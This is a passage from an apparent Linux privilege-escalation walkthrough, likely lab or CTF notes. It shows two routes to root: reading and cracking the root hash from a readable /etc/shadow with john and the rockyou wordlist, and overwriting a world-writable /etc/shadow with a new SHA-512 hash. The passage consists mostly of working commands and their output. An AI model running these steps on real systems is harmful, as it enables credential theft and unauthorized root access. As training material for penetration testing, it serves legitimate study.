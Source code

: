 Extract hash:

```
head -n 1 /etc/shadow
```

Place the hash into a file called hash.txt:

```
nano hash.txt
```

Crack the password using john with the rockyou.txt wordlist:

```
john --format=sha512crypt --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

"su":

```
su
Password:
root@debian#
```

#### Writeable /etc/shadow

Verify vulnerable permissions:

```
ls -l /etc/shadow
-rw-r--rw 1 root shadow
```

Create backup of /etc/shadow:

```
cp /etc/shadow /home/user/
```

Generate new password utilizing SHA-512:

```
 mkpasswd -m sha-512 newpassword
```

Add hash to file:

```
nano /etc/shadow
```

Switch User:

```
su
Password:
id
uid=0(root)
root@debian:/home/user#
```

